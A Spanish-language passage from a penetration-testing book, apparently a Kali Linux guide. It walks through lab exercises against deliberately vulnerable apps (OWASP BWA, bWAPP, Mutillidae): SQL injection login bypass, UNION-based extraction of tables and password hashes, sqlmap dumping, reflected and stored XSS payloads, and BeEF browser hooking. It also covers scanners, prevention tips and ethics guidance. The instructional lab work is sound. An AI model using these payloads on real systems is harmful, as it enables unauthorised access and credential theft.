- **Proyecto de aplicaciones web rotas** (**BWA**) de OWASP: https://sourceforge.net/projects/owaspbwa/
- Acunetix: https://www.acunetix.com/
- Aplicación bWAPP: https://sourceforge.net/projects/bwapp/


## Explorando los peligros de la inyección SQL

Como se mencionó en el capítulo anterior ( Capítulo 14, *Realización de pruebas de penetración en sitios web* ), **la inyección SQL** (**SQLi**) permite a un atacante insertar una serie de consultas/código SQL maliciosos directamente en un servidor de base de datos backend. Esta vulnerabilidad permite a un atacante manipular registros agregando, eliminando, modificando y recuperando entradas en una base de datos.

En esta sección cubriremos los siguientes temas:

- Los peligros de las vulnerabilidades de inyección SQL
- Cómo eludir los inicios de sesión mediante una vulnerabilidad de inyección SQL

Ahora, veamos los peligros de las inyecciones SQL en detalle.

## Peligros de las vulnerabilidades de inyección SQL

Un ataque de inyección SQL exitoso puede causar lo siguiente:

- **Omisión de autenticación** : permite que un usuario obtenga acceso a un sistema sin credenciales o privilegios válidos.
- **Divulgación de información** : permite a un usuario obtener información confidencial
- **Integridad de datos comprometida** : permite que un usuario manipule datos en una base de datos.
- **Disponibilidad de datos comprometida** : impide que usuarios legítimos accedan a los datos de un sistema
- **Ejecución remota de código en un sistema comprometido** : permite que un usuario malintencionado ejecute código malicioso en un sistema de forma remota

A continuación, veamos cómo omitir los inicios de sesión mediante inyección SQL.

## Cómo omitir inicios de sesión mediante inyección SQL

En este ejercicio, utilizaremos la máquina virtual OWASP BWA para demostrar cómo omitir la autenticación mediante inyección SQL. Para comenzar, encienda la máquina virtual OWASP BWA. Después de unos minutos, la máquina virtual le proporcionará su dirección IP.

Dirígete a tu máquina Kali Linux (atacante) y sigue estos pasos:

1. Ingrese la dirección IP de la máquina virtual OWASP BWA en el navegador web de Kali Linux.
2. Haz clic en la aplicación **OWASP Mutillidae II**, de la siguiente manera:



1. Vaya a la siguiente página: OWASP 2013 | A2 - Autenticación rota y administración de sesiones | Omisión de autenticación | Mediante inyección SQL | Iniciar sesión :



1. Introduzca cualquiera de los siguientes caracteres en el campo 

   Nombre de usuario :

   

   - **'**
   - **/**
   - **--**
   - **\**
   - **.**

Si ocurre un error, examine el mensaje producido por el servidor.

Si no se producen errores en la página de inicio de sesión del sitio web, intente utilizar declaraciones verdaderas o falsas, como 1=1 --o **1=0 --**.

Cuando ejecutamos esto, debería aparecer un error similar al siguiente. Si observa con atención, Puedes ver la consulta que se utilizó entre la aplicación del servidor web y la base de datos, SELECT username FROM accounts WHERE username= ' ' ' ;como se muestra aquí:



Lo siguiente se puede determinar a partir de la consulta SQL:

- - La SELECTinstrucción se utiliza para recuperar información de una base de datos relacional. Por lo tanto, la instrucción comienza diciendo: SELECTla usernamecolumna de la tabla.
  - La FROMinstrucción se utiliza para especificar el nombre de la tabla. En la instrucción, especificamos la tabla **de cuentas** .
  - La WHEREdeclaración se utiliza para especificar un campo dentro de la tabla. La consulta indica el campo o los campos que tienen un valor igual a '(una comilla simple). El =parámetro (igual a) nos permite asegurar una coincidencia específica en nuestra consulta.
  - ;Se utiliza para finalizar una declaración SQL.
  - Al combinarse, la declaración se lee de la siguiente manera: Consulte la usernamecolumna dentro de la accountstabla y busque cualquier nombre de usuario que sea **'**(entre comillas simples).

El INSERTcomando se utiliza para agregar datos, UPDATEpara actualizar datos, DELETEpara DROPeliminar datos y MERGEpara combinar datos dentro de la tabla y/o base de datos.

1. Intentemos combinar algunas declaraciones. Utiliza la declaración **' or 1=1 --**(hay un espacio después de --) en el campo **Nombre de usuario** y luego haz clic en **Iniciar sesión** :



La instrucción elige el primer registro dentro de la tabla y lo devuelve. Al verificar el estado de inicio de sesión, podemos ver que ahora iniciamos sesión como admin. Esto significa que el primer registro es admin:



La declaración elige el primer registro de la tabla y devuelve el valor, que es admin.

1. Probemos con otro usuario y modifiquemos un poco nuestro código. Intentaremos iniciar sesión como el usuario john. Inserte el nombre de usuario johnen el campo de nombre de usuario y el siguiente comando SQL en el campo de contraseña:

```markup
' or (1=1 and username = 'john') -- 

```

Asegúrate de que haya un espacio después de los guiones dobles ( --) y presione **Iniciar sesión** para ejecutar los comandos. La siguiente captura de pantalla muestra que podemos iniciar sesión correctamente como usuario john:



Estas son algunas técnicas que se pueden utilizar para eludir la autenticación mediante ataques de inyección SQL en un servidor web. En la siguiente sección, abordaremos las vulnerabilidades de inyección SQL y su explotación.


## Vulnerabilidades y explotación de la inyección SQL

En esta sección, vamos a explorar las siguientes vulnerabilidades y explotaciones mediante inyección SQL:

- Descubriendo las inyecciones SQL con GET
- Lectura de información de la base de datos
- Encontrar tablas de bases de datos
- Extracción de datos confidenciales como contraseñas

Para comenzar a descubrir inyecciones SQL con GET, utiliza las siguientes instrucciones:

1. Encienda la máquina virtual OWASP BWA. Después de unos minutos, la máquina virtual le proporcionará su dirección IP.
2. Dirígete a tu máquina Kali Linux (atacante) e ingresa la dirección IP de la máquina virtual OWASP BWA en el navegador web de Kali Linux.
3. Haz clic en la aplicación **bWAPP** como se muestra aquí:



4. Utiliza beecomo nombre de usuario y bugcontraseña para iniciar sesión en la aplicación. Luego haz clic en iniciar sesión:



5. Seleccione la opción **Inyección SQL (Buscar/OBTENER)** como se muestra aquí y haz clic en **Hackear** para continuar:



6. Aparecerá un cuadro de búsqueda y una tabla. Cuando se introducen datos en el campo de búsqueda, se utiliza una solicitud GET para recuperar la información de la base de datos SQL y mostrarla en la página web. Ahora, realicemos una búsqueda de todas las películas que contienen la cadena war:



**Aviso legal** : La información visible en la captura de pantalla anterior se obtuvo de la base de datos almacenada localmente dentro de la máquina virtual Metasploitable; específicamente, se encuentra dentro de la sección de la aplicación web vulnerable bWAPP. Además, las máquinas virtuales utilizadas se encuentran en una red virtual aislada.

Si observamos atentamente la URL en el navegador web, podemos ver que sqli_1.php?title=war&action=searchse utilizó para devolvernos/mostrarnos los resultados desde la base de datos.

7. Si usamos el 1'carácter dentro del campo de búsqueda, obtendremos el siguiente error al usar sqli_1.php?title=1'&action=search:




Este error indica que el objetivo es vulnerable a ataques de inyección SQL. El error indica que hay un problema con la sintaxis que hemos insertado en el campo de búsqueda. Además, el error revela que la base de datos es un servidor MySQL. Este tipo de errores reveladores no deben darse a conocer a los usuarios de esta manera. Los errores de la base de datos solo deben ser accesibles para el administrador/desarrollador de la base de datos u otra persona responsable. Esto es una señal de una configuración incorrecta entre la aplicación web y el servidor de la base de datos.

1. Ajustando la URL a http://192.168.56.101/bWAPP/sqli_1.php?title=1' order by 7-- -, obtenemos la siguiente respuesta:


El resultado indica que hay al menos siete tablas. Pudimos saberlo usando order by 7-- -en la URL. Observe que, en el siguiente paso, cuando ajustamos la URL para verificar si hay tablas adicionales, obtenemos un error.

2. Verifiquemos si hay ocho tablas usando la siguiente URL: http://192.168.56.101/bWAPP/sqli_1.php?title=1' order by 8-- -. Como podemos ver, se devolvió un mensaje de error:


Por lo tanto, podemos confirmar que tenemos siete tablas.


1. Ahora podemos ajustar la URL a http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,2,3,4,5,6,7-- -. La siguiente captura de pantalla muestra los resultados. La aplicación web (bWAPP) devuelve los valores 2, 3, 5y 4en la misma fila. Por lo tanto, podemos determinar que las tablas 2, 3, 4y 5son vulnerables a ataques:


2. Para comprobar la versión de la base de datos, podemos sustituir @@versionuna tabla vulnerable dentro de la siguiente URL, obteniendo http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1, @@version,3,4,5,6,7-- -:



3. Ahora podemos intentar obtener los nombres de las tablas utilizando la siguiente URL http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,table_name,3,4,5,6,7 from information_schema.tables-- -:


Ahora tenemos todas las tablas dentro de la base de datos. Las siguientes tablas fueron creadas por el desarrollador:



1. Ahora intentaremos recuperar las credenciales de usuario de la userstabla. En primer lugar, necesitaremos obtener el nombre de la columna de la tabla de usuarios. Hay un pequeño problema que puedes encontrar con los métodos mágicos de PHP: el error no nos permite insertar/consultar cadenas en el método mágico de PHP. Por ejemplo, no podremos recuperar información de la userstabla si insertamos la users cadena dentro de la URL, lo que significa que la base de datos no devolverá ninguna columna. Para evitar este error, convierta la users cadena a ASCII. El valor ASCII de userses **117 115 101 114 115** .
2. Ahora podemos proceder a recuperar las columnas de la userstabla únicamente. Podemos utilizar la siguiente URL http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name=char(117,115,101,114,115)-- -:


Char() permite la inyección SQL para insertar sentencias en MySQL sin utilizar comillas dobles ( "").

3. Usando http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,login,3,4,5,6,7 from users-- -, podemos mirar la email columna de la users tabla como se describe en *el Paso 14* :


4. Para recuperar la contraseña, ajuste la URL a http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,password,3,4,5,6,7 from users-- -:


5. Ahora tenemos el hash de la contraseña. Podemos utilizar un identificador de hash en línea o fuera de línea para determinar el tipo de hash:



6. Además, puedes utilizar un decodificador de hash en línea como **CrackStation** ( https://crackstation.net/ ) para realizar el descifrado:


Hemos recuperado con éxito las credenciales de usuario del servidor SQL manipulando declaraciones SQL dentro de la URL de un navegador web.

En la siguiente sección, aprenderemos cómo detectar inyecciones SQL con POST en un servidor de destino.

## Descubriendo inyecciones SQL con POST

En este ejercicio, intentaremos descubrir si es posible realizar una inyección SQL con POST. El método **POST** se utiliza para enviar datos a un servidor web. Este método no es como el método **GET**, que se utiliza para recuperar datos o un recurso. Utilizaremos la siguiente topología para completar este ejercicio:



Para comenzar a detectar inyecciones SQL con POST, utiliza las siguientes instrucciones:

1. Habilite Burp Proxy en su máquina Kali Linux y confirme que la configuración de proxy de su navegador web sea correcta. Si no está seguro, consulte el Capítulo 7, *Cómo trabajar con escáneres de vulnerabilidades*, específicamente la sección *Burp Suite*, que contiene todos los detalles que necesita para configurar Burp Suite en su máquina Kali Linux.

1. Asegúrate de que **Intercept** esté habilitado en Burp Suite, como se muestra aquí:



1. Abra su navegador web en Kali Linux e ingrese la dirección IP de OWASP BWA en la barra de direcciones.

Asegúrate de hacer clic en el botón **Reenviar** periódicamente en Burp Suite para reenviar los datos entre el navegador web Kali Linux y el servidor web OWASP BWA.

1. Haz clic en **bWAPP** como se muestra en la siguiente captura de pantalla. Inicia sesión en el portal **bWAPP** con las credenciales bee (nombre de usuario) y bug ( contraseña ) . Tenga en cuenta que estas son las credenciales de usuario predeterminadas para la máquina virtual **bWAPP :**




1. En la esquina superior derecha, use el menú desplegable para seleccionar **Inyección SQL (Buscar/POST)** y luego haz clic en **Hackear** para cargar la vulnerabilidad:



1. Introduzca una palabra en el campo de búsqueda y haz clic en **Buscar** para enviar (publicar) datos:



La base de datos responderá indicando si se encontró una película.

1. En Burp Suite, seleccione la pestaña Destino | Mapa del sitio para ver todos los mensajes **GET** y **POST** entre su navegador web en Kali Linux y el servidor web OWASP BWA.
2. **Seleccione el mensaje POST** más reciente, que debe contener la búsqueda que acaba de realizar:



A continuación se muestra el contenido de este mensaje **POST :**



1. Haz clic derecho en cualquier parte de la Rawventana de contenido y selecciona la opción **Guardar elemento** . Guarde el archivo en su escritorio en Kali Linux como postdata.txt.
2. Una vez que el archivo se haya guardado correctamente, usemos SQLmap para descubrir vulnerabilidades de inyección SQL (SQLi) en POST en el servidor de destino. Use el siguiente comando para realizar esta tarea:

```markup
sqlmap –r /root/Desktop/postdata.txt

```

1. SQLmap intentará comprobar todos POSTlos parámetros y determinar si la aplicación es vulnerable. A continuación se muestran algunas de las posibles vulnerabilidades:



En la captura de pantalla anterior, SQLmap pudo notar que el parámetro 'title' puede ser vulnerable y que la base de datos también Puedes ser una plataforma MySQL. Además, el siguiente es un ejemplo de un parámetro inyectable que se ha encontrado:


La captura de pantalla anterior muestra que SQLmap ha determinado que el 'title'parámetro también es vulnerable a ataques de inyección SQL. Por último, las siguientes son las cargas útiles de SQLmap:



En este artículo, SQLmap nos proporciona un pequeño resumen de lo que se ha probado, cómo se ha probado y los resultados. Con la información que nos ha proporcionado **SQLmap**, sabemos exactamente dónde el sitio web de destino es vulnerable a los ataques SQLi con POST y cómo aprovechar las debilidades mediante cargas útiles específicas.

Una vez completado este ejercicio, ahora puedes usar Burp Suite y SQLmap para descubrir vulnerabilidades de inyección SQL en mensajes POST.

En la siguiente sección, aprenderá a utilizar la herramienta SQLmap para descubrir inyecciones SQL.

## Detección de inyecciones SQL y extracción de datos mediante SQLmap

SQLmap es una herramienta de inyección SQL automática que permite a un evaluador de penetración descubrir vulnerabilidades, realizar ataques de explotación, manipular registros y recuperar datos de una base de datos.

Para realizar un escaneo utilizando SQLmap, utiliza el siguiente comando:

```markup
sqlmap –u "http://website_URL_here"
```


Además, se pueden utilizar los siguientes parámetros para realizar diversas tareas:

- ``--dbms=database_type``: Realiza un ataque de fuerza bruta en el backend. Un ejemplo es --dbms=mysql.
- ``--current-user``: Recupera el usuario actual de la base de datos.
- ``--passwords``: Enumera hashes de contraseñas.
- ``--tables``: Enumera tablas dentro de la base de datos.
- ``--columns``: Enumera columnas dentro de las tablas.
- ``--dump``: Vuelca las entradas de la tabla de datos.

En la siguiente sección, discutiremos formas de prevenir la inyección de SQL.

## Prevención de la inyección SQL

En esta sección, cubriremos brevemente algunas técnicas esenciales para minimizar y prevenir ataques de inyección SQL en un sistema. También analizaremos las mejores prácticas en un formato simple.

se pueden utilizar las siguientes técnicas para prevenir ataques de inyección SQL:

- Ejecuta el servicio de base de datos con privilegios mínimos.
- Supervise todo el tráfico de la base de datos utilizando un **firewall de aplicaciones web** (**WAF**) o IDS/IPS.
- Desinfectar datos.
- Filtrar todos los datos del cliente.
- Suprimir mensajes de error en el lado del usuario.
- Utiliza mensajes de error personalizados en lugar de los mensajes predeterminados.
- Utiliza API seguras.
- Realizar una penetración regular de caja negra en el servidor de base de datos.
- Aplicar controles de tipo y longitud mediante colecciones de parámetros en la entrada del usuario; esto evita la ejecución de código.

En la siguiente sección, aprenderemos sobre las vulnerabilidades **de Cross-Site Scripting** (**XSS**).


## Vulnerabilidades de secuencias de comandos entre sitios

Como se mencionó en el capítulo anterior, XSS permite a un atacante inyectar secuencias de comandos del lado del cliente en páginas web vistas por otros usuarios. Por lo tanto, cuando un usuario desprevenido visita una página web que contiene secuencias de comandos maliciosas, el navegador de la víctima ejecutará automáticamente estas secuencias de comandos maliciosas en segundo plano.

En esta sección, cubriremos cómo descubrir varias vulnerabilidades XSS analizando los siguientes temas:

- Entendiendo XSS
- Descubriendo XSS reflejado
- Descubriendo XSS almacenado
- Explotación de XSS: cómo enganchar a visitantes de páginas vulnerables a BeEF

En la siguiente sección aprenderemos qué es XSS.

## Entendiendo XSS

Como se mencionó en el capítulo anterior, los ataques XSS se realizan explotando vulnerabilidades en una página web creada dinámicamente. Esto permite a un atacante inyectar secuencias de comandos del lado del cliente en páginas web vistas por otros usuarios. Cuando un usuario desprevenido visita una página web que contiene XSS, el navegador del usuario comenzará a ejecutar la secuencia de comandos maliciosa en segundo plano sin que la víctima se dé cuenta.

En los siguientes ejercicios, utilizaremos **WebGoat** y **bWAPP** en una máquina virtual OWASP BWA:



El nombre de usuario y la contraseña para **WebGoat** son guest/ guest. El nombre de usuario y la contraseña para **bWAPP** son bee/ bug.

A continuación, echaremos un vistazo al XSS reflejado.

## Descubriendo XSS reflejado

En un ataque XSS reflejado, se insertan datos y luego se reflejan nuevamente en la página web. En este ejercicio, repasaremos el proceso de descubrimiento de una vulnerabilidad XSS reflejada en un servidor de destino.

Para completar esta tarea, realice las siguientes instrucciones:

1. Navegue hasta la aplicación **bWAPP** e inicie sesión.
2. Seleccione **Cross-Site Scripting - Reflected (GET)** y haz clic en **Hackear** para habilitar esta página de vulnerabilidad:



1. Sin introducir ningún dato en el formulario, haz clic en **Ir** . Si observa la URL en la barra de direcciones del navegador web, podrá ver que se puede editar:


1. Para comprobar si el campo es vulnerable a XSS reflejado, podemos insertar JavaScript personalizado en el campo **Nombre** . Inserte el siguiente JavaScript:

```markup
<script>alert("Testing Reflected XSS")

```

En el campo **Apellido**, utiliza el siguiente comando para cerrar el script:

```markup
</script>

```


La siguiente captura de pantalla muestra lo que debe hacer:



1. Haz clic en **Ir** para ejecutar el script en el servidor. Aparecerá la siguiente ventana emergente:


Esto indica que el script se ejecutó sin problemas en el servidor de destino; por lo tanto, el servidor es vulnerable a ataques XSS.

En la siguiente sección, veremos el XSS almacenado.

## Descubriendo XSS almacenado

En el XSS almacenado, el probador de penetración inyecta código malicioso que se almacenará en la base de datos de destino.

En este ejercicio, recorreremos el proceso de descubrimiento de una vulnerabilidad XSS almacenada en un servidor de destino.


Para completar esta tarea, utiliza las siguientes instrucciones:

1. Navegue hasta la aplicación bWAPP e inicie sesión.
2. Seleccione **Cross-Site Scripting - Stored (Blog)** y haz clic en **Hackear** para habilitar esta página de vulnerabilidad:



1. Puedes introducir cualquier mensaje en el campo de texto y hacer clic en Enviar . El texto introducido se almacenará en la base de datos, como en un tablero de mensajes en línea, un foro o un sitio web con una sección de comentarios:



Además, podemos ver la tabla, el campo y las columnas.

1. Podemos ingresar el siguiente script dentro del campo de texto y hacer clic en **Enviar** :

```markup
<script>alert("Testing Stored XSS")</script>

```


1. Después de enviar el script, recibirá la siguiente ventana emergente verificando que se ejecutó correctamente:


Mirando la tabla, hay una segunda fila sin ninguna entrada real:



Esta nueva entrada refleja que nuestro script ha sido insertado y almacenado en la base de datos. Si alguien abre esta página web, el script se ejecutará automáticamente.

En la siguiente sección, demostraremos cómo explotar vulnerabilidades XSS utilizando el **Browser Exploitation Framework** (**BeEF**).

## Explotación de XSS: cómo enganchar a visitantes de páginas vulnerables a BeEF

BeEF es una herramienta de auditoría de seguridad que utilizan los evaluadores de penetración para evaluar la situación de seguridad y descubrir vulnerabilidades de sistemas y redes. Permite interceptar el navegador de un cliente y explotarlo. El enganche es el proceso de hacer que una víctima haz clic en una página web que contiene código JavaScript. El código JavaScript es luego procesado por el navegador web de la víctima y enlaza el navegador al servidor BeEF en Kali Linux.

Para este ejercicio, utilizaremos la siguiente topología:



Comencemos a usar BeEF para explotar vulnerabilidades XSS:

1. Para abrir BeEF, vaya a **Aplicaciones** | **08 – Herramientas de explotación** | **Beef xss framework** . El servicio BeEF se iniciará y mostrará los siguientes detalles para acceder a la interfaz de BeEF:



La interfaz de usuario web y las URL de los enlaces son importantes. El enlace de JavaScript suele estar integrado en una página web que se envía a la víctima. Una vez que se accede a él, el JavaScript se ejecutará en el navegador de la víctima y creará un enlace al servidor BeEF. La dirección IP utilizada en el script de enlace es la dirección IP del servidor BeEF. En nuestro laboratorio, es la máquina Kali Linux (del atacante).

1. El navegador web se abrirá automáticamente en el portal de inicio de sesión de BeEF. Si no se abre, utiliza http://127.0.0.1:3000/ui/panel:



El nombre de usuario es beefy habrás establecido la contraseña cuando inicies BeEF inicialmente.

1. Inicia el servicio web Apache en Kali Linux:

```markup
service apache2 start

```

1. Edite la página web ubicada en el directorio del servidor web.

```markup
cd /var/www/html
nano index.html

```

1. Inserte el código dentro del encabezado de la página HTML como se muestra aquí:




La dirección IP pertenece a la máquina Kali Linux que ejecuta el servidor BeEF.

1. En su máquina Windows, abra el navegador web e inserte la dirección IP de la máquina Kali Linux:




1. Regrese a su máquina Kali Linux. Ahora tiene un navegador conectado. Haz clic en el navegador conectado:



1. Haz clic en la Commandspestaña. Aquí podrá ejecutar acciones en el navegador web de la víctima. Vamos a mostrar una notificación en el lado del cliente.

1. Haz clic en la pestaña Comandos | Ingeniería social | Barra de notificaciones falsa :


La columna del extremo derecho mostrará una descripción del ataque. Cuando esté listo, haz clic en Ejecutar para iniciarlo.

1. Ahora, dirígete a la máquina Windows. Verás que aparece una barra de notificaciones falsa en el navegador web:



BeEF le permite realizar ataques del lado del cliente en la interfaz del navegador de la víctima.

En esta sección, hemos cubierto varios métodos y técnicas que se utilizan para descubrir vulnerabilidades XSS en un objetivo y hemos realizado explotaciones XSS utilizando BeEF. En la siguiente sección, realizaremos un escaneo automático de vulnerabilidades web.


## Descubrimiento automático de vulnerabilidades

En esta sección, veremos cómo usar herramientas que nos ayuden a descubrir automáticamente vulnerabilidades en aplicaciones web y servidores. Se utilizarán Burp Suite, Acunetix y OWASP ZAP para realizar análisis de vulnerabilidades.

## Suite para eructos

En el Capítulo 7, *Cómo trabajar con escáneres de vulnerabilidades*, describimos los beneficios y la funcionalidad de utilizar Burp Suite. En esta sección, demostraremos con más detalle cómo realizar la detección automática de vulnerabilidades utilizando esta herramienta.

Podemos utilizar Burp Suite para realizar análisis automáticos en páginas o sitios web específicos. Antes de comenzar, asegúrate de haber configurado los siguientes ajustes:

- Configure el navegador web en la máquina del atacante (Kali Linux) para que funcione con Burp Suite Proxy. Si tiene dificultades con esta tarea, vuelva a consultar el Capítulo 7, *Cómo trabajar con escáneres de vulnerabilidades* .
- Asegúrate de encender la máquina virtual OWASP BWA y capturar su dirección IP.

Una vez establecidas estas configuraciones, podemos comenzar a realizar los siguientes pasos:

1. Utiliza el navegador web en su máquina Kali Linux para navegar al **DVWA** dentro de la máquina virtual OWASP BWA.

1. Haz clic en **Inyección SQL** como se muestra aquí:



1. Abra Burp Suite y asegúrate de que **Intercept** esté activado.
2. En la página web de DVWA, haz clic en el botón **Enviar** para enviar una solicitud HTTP al servidor:




1. En Burp Suite, debería poder ver la solicitud HTTP. Haz clic con el botón derecho en cualquier parte de la ventana de contexto y seleccione **Realizar un análisis activo** :



Esto permitirá que Burp Suite realice un escaneo automático en la página web de destino para descubrir cualquier vulnerabilidad web.

El siguiente es un ejemplo de los resultados después de completar un escaneo utilizando Burp Suite:



Al seleccionar cada problema encontrado obtendrá un desglose de la vulnerabilidad específica.

En la siguiente sección, aprenderemos cómo utilizar Acunetix para descubrir vulnerabilidades web.

## Acunetix

Acunetix es uno de los escáneres de vulnerabilidades de aplicaciones web más populares y reconocidos de la industria. Actualmente, es uno de los escáneres de vulnerabilidades líderes utilizados entre las empresas Fortune 500. Acunetix está diseñado para realizar ataques avanzados de inyección de SQL y XSS mediante el escaneo de un sitio web o servidor web de destino.

Para comenzar a utilizar Acunetix, siga los siguientes pasos:

1. Vaya a https://www.acunetix.com/vulnerability-scanner/download/ y regístrese para obtener una versión de prueba. Acunetix es un producto comercial, pero podemos adquirir una versión de prueba para nuestro ejercicio.
2. Después de completar el registro, se le presentará la siguiente pantalla:



Descargue la versión de Linux ya que la usaremos en nuestra máquina atacante, Kali Linux.

1. acunetix_trial.shUna vez descargado el archivo, utiliza el chmod +x acunetix_trial.shcomando para aplicar privilegios ejecutables a su cuenta de usuario local. Para comenzar la instalación, utiliza el ./acunetix_trial.shcomando que se muestra a continuación:



1. En la interfaz de la línea de comandos, lea y acepte el **Acuerdo de licencia de usuario final** (**EULA**).
2. Abra su navegador web en Kali Linux e ingrese la siguiente dirección, https://kali:13443/, para acceder a la interfaz de usuario de Acunetix. Inicia sesión con la cuenta de usuario creada durante el proceso de configuración:



1. Para comenzar un nuevo escaneo, haz clic en **Crear nuevo objetivo** o **Agregar objetivo**, como se muestra aquí:



1. Se abrirá la ventana emergente **Agregar objetivo, que le permitirá especificar un objetivo:**


1. Después de agregar un objetivo, se le presentarán opciones para personalizar su escaneo:



Por ahora dejaremos todas las opciones con sus configuraciones predeterminadas.

1. Especifique el tipo de escaneo y las opciones de informes:



Acunetix le permite generar los siguientes tipos de informes para las necesidades de su negocio:

- - Artículos afectados
  - Desarrollador
  - Ejecutivo
  - Rápido
  - Informes de cumplimiento
    - CWE 2011
    - HIPAA
    - ISO 27001
    - Norma NIST SP800 53
    - Los 10 mejores de OWASP 2013
    - Los 10 mejores de OWASP 2017
    - Tarjeta de memoria PCI SD 3.2
    - Ley Sarbanes-Oxley
    - STIG DISA
    - Clasificación de amenazas WASC

1. Cuando esté listo, comience el escaneo en el objetivo.

Una vez finalizado el análisis, se proporciona un resumen en el panel principal de Acunetix, como se muestra aquí:



Puedes ver rápidamente la duración del análisis y cualquier vulnerabilidad de alto riesgo encontrada.

1. Para ver una lista detallada de las vulnerabilidades encontradas, haz clic en la pestaña **Vulnerabilidades** y selecciona una de las vulnerabilidades web:



Para crear un informe, haz clic en **Generar informe** . El asistente de informes le permitirá especificar el tipo de informe que sea más adecuado en función del objetivo de la prueba de penetración de la aplicación web. Una vez generado el informe, Puedes descargar el archivo en su escritorio. A continuación, se muestra una versión en PDF del informe ejecutivo:



Acunetix es sin duda una herramienta imprescindible en su arsenal de pruebas de penetración. Le permitirá realizar rápidamente pruebas de caja negra en cualquier aplicación web y presentar los resultados en un informe fácil de leer y comprender.

En la siguiente sección, aprenderemos cómo utilizar OWASP ZAP para realizar evaluaciones de vulnerabilidad web.

## ZAP de OWASP

El proyecto OWASP **Zed Attack Proxy** (**ZAP**) fue creado por OWASP como una herramienta de seguridad gratuita para descubrir vulnerabilidades en servidores web y aplicaciones con una interfaz simple y fácil de usar.

OWASP ZAP está preinstalado en Kali Linux. Para comenzar, realicemos un análisis de vulnerabilidades web en nuestra máquina virtual OWASP BWA de destino.

Para comenzar a utilizar OWASP ZAP, realice los siguientes pasos:

1. Abra OWASP ZAP y luego navegue hasta Aplicaciones | 03 - Análisis de aplicaciones web | OWASP-ZAP . En la interfaz, haz clic en Escaneo automático, como se muestra aquí:



1. Ingrese la dirección IP de la máquina virtual OWASP BWA y haz clic en Atacar para comenzar el análisis de seguridad:



Durante la fase de escaneo, OWASP ZAP realizará un rastreo del objetivo. **El rastreo** es una técnica en la que el escáner de seguridad web detecta directorios ocultos e intenta acceder a ellos (rastreo):



1. Cuando se complete el análisis, haz clic en la pestaña Alertas para ver todas las vulnerabilidades basadas en web encontradas y las ubicaciones de cada una en el objetivo:



Al seleccionar una vulnerabilidad, OWASP mostrará tanto el encabezado como el cuerpo HTTP cuando se devuelvan desde el servidor de destino:



Si observa atentamente la captura de pantalla anterior, verá que OWASP ZAP ha resaltado el área afectada de la codificación web.

1. Una vez que se haya completado un análisis de seguridad, Puedes crear y exportar un informe. Para ello, haz clic en Informe | Generar informe HTML . La aplicación le permitirá guardar el informe en su escritorio. El siguiente es un informe de muestra creado con OWASP ZAP:



Además, OWASP ZAP te permite generar informes en múltiples formatos según tus necesidades. No dejes de explorar las demás funciones de esta increíble herramienta.


## Resumen

Una vez completado este capítulo, ahora puedes realizar pruebas de penetración de aplicaciones web, omitir el inicio de sesión mediante ataques de inyección SQL, encontrar tablas en bases de datos y recuperar credenciales de usuario, realizar varios tipos de ataques XSS en aplicaciones web y lanzar con éxito ataques del lado del cliente utilizando BeEF.

Espero que este capítulo te resulte útil para tus estudios y tu carrera profesional. En el próximo capítulo, aprenderás sobre las mejores prácticas de pruebas de penetración.


## Preguntas

Las siguientes son algunas preguntas basadas en los temas que hemos cubierto en este capítulo:

1. ¿Qué declaración SQL se utiliza para especificar una tabla dentro de una base de datos?
2. ¿Cómo cerrar una declaración en SQL?
3. ¿Cómo agregar un nuevo registro en una base de datos?
4. ¿Qué herramienta puede realizar un ataque del lado del cliente?


## Otras lecturas

- **XSS** : https://www.owasp.org/index.php/Scripting entre sitios (XSS)
- **Inyección SQL** : https://www.owasp.org/index.php/SQL_Injection


# Mejores prácticas

En primer lugar, me gustaría felicitarte personalmente por haber completado este libro. Has adquirido habilidades increíbles en ciberseguridad, en particular en el campo de las pruebas de penetración, utilizando una de las distribuciones de Linux para pruebas de penetración más populares disponibles: Kali Linux. A lo largo de este título, nos centramos mucho en los aspectos técnicos y prácticos de convertirse en un evaluador de penetración/hacker ético.

Sin embargo, aún quedan por cubrir las mejores prácticas de pruebas de penetración. Aprender sobre las mejores prácticas le ayudará a mejorar como profesional en el mundo empresarial. Si sigue los procedimientos recomendados, podrá trabajar de manera eficaz y obtener resultados óptimos de manera eficiente.

En este capítulo cubriremos los siguientes temas:

- Pautas para los evaluadores de penetración
- Planes y listas de verificación de seguridad de aplicaciones web
- Listas de verificación de sitios web y redes


## Requerimientos técnicos

No hay requisitos técnicos formales para este capítulo.


## Pautas para los evaluadores de penetración

Si tiene las habilidades de un hacker, debe conocer los límites entre las actividades éticas y las delictivas. Recuerde que realizar cualquier acción intrusiva utilizando un sistema informático para causar daño a otra persona u organización es ilegal. Por lo tanto, los evaluadores de penetración deben seguir un código de conducta para garantizar que siempre se mantengan dentro de la ley en todo momento.


En el resto de esta sección, cubriremos los siguientes puntos clave:

- Obtener permiso por escrito
- Ser ético
- Contrato de prueba de penetración
- **Reglas de enfrentamiento** (**RoE**)
- Consejos y trucos adicionales

Ahora veamos estos temas en detalle.

## Obtener permiso por escrito

Antes de realizar una prueba de penetración en una organización objetivo, asegúrate de contar con **el permiso por escrito** de la organización. Si se requiere permiso adicional de otras autoridades, asegúrate de obtener todos los documentos de permiso legales. Tener un permiso legal por escrito es como tener una tarjeta para salir de la cárcel como evaluador de penetración. Las tareas que realiza un evaluador de penetración implican simular un ciberataque real en una organización objetivo; esto significa hackear su red por cualquier medio posible. Algunos ataques pueden ser muy intrusivos y pueden causar daños o interrupciones de la red; el permiso por escrito se utiliza para protegerse legalmente.

## Ser ético

**Sea siempre ético** en todas sus acciones como profesional de la industria. Durante el tiempo que haya practicado sus habilidades de prueba de penetración, estoy seguro de que se habrá dado cuenta de que existe una delgada línea entre ser un hacker malintencionado y un evaluador de penetración. La principal diferencia es que el evaluador de penetración obtiene permiso legal antes de realizar cualquier tipo de ataque y el objetivo es ayudar a una organización a mejorar su postura de seguridad y reducir la superficie de ataque que un hacker real podría explotar. Ser ético simplemente significa hacer lo correcto y defender los principios morales.


## Contrato de prueba de penetración

